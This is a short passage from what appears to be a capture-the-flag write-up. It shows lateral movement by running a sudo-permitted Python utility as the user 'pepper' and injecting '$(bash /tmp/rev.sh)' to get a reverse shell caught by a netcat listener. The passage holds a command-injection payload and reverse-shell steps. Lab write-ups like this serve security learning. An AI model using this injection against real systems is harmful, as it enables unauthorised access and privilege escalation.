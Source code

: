 > According to sudo permission list, I need to use pepper's credential to execute the python file.
> Using the following command to execute the simpler.py

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
```
$(bash /tmp/rev.sh)
```
![](./IMG/69.png)

> I check the nc listener, it will get the reverse shell back 

![](./IMG/70.png)

> I also confirm the current user 

```
id
whoami
```
